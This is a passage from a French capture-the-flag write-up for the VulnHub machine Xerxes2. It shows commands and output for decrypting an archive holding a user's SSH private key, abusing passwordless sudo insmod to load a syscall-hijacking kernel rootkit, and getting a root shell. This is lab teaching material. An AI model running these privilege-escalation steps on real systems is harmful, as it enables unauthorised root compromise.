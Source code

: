 La commande inverse est donc :  

```bash
openssl enc -d -salt -aes-256-cbc -pass pass:c2hvZGFu  -in korenchkin.tar.enc -out korenchkin.tar
```

Cette fois, on a une paire de clés SSH qui nous permettent de devenir `korenchkin` :  

```console
$ tar tvf korenchkin.tar 
-rw------- korenchkin/korenchkin 1675 2014-07-16 20:17 .ssh/id_rsa
-rw-r--r-- korenchkin/korenchkin  400 2014-07-16 20:17 .ssh/id_rsa.pub
```

## Quatrième énigme

L'utilisateur a des permissions *sudo* pour charger et décharger des modules kernel :  

```console
korenchkin@xerxes2:~$ sudo -l
Matching Defaults entries for korenchkin on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User korenchkin may run the following commands on this host:
    (root) NOPASSWD: /sbin/insmod, (root) /sbin/rmmod
```

J'ai choisi d'utiliser un rootkit LKM [décrite sur le blog de memset](http://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/) :  

Il faut seulement changer dans le code l'adresse de la `sys_call_table` par celle effective du système :  

```console
korenchkin@xerxes2:~$ grep sys_call_table /boot/System.map-3.2.0-4-686-pae 
c12cce90 R sys_call_table
```

Après on insère le rootkit et on utilise le programme d'exemple :  

```console
korenchkin@xerxes2:~$ sudo insmod rootkit.ko 
korenchkin@xerxes2:~$ ./test
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(korenchkin)
# cat flag*
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

 congratulations on beating xerxes2!

 I hope you enjoyed it as much as I did making xerxes2. 
 xerxes1 has been described as 'weird' and 'left-field'
 and I hope that this one fits that description too :)

 Many thanks to @TheColonial & @rasta_mouse for testing!

 Ping me on #vulnhub for thoughts and comments!

       @barrebas, July 2014
```
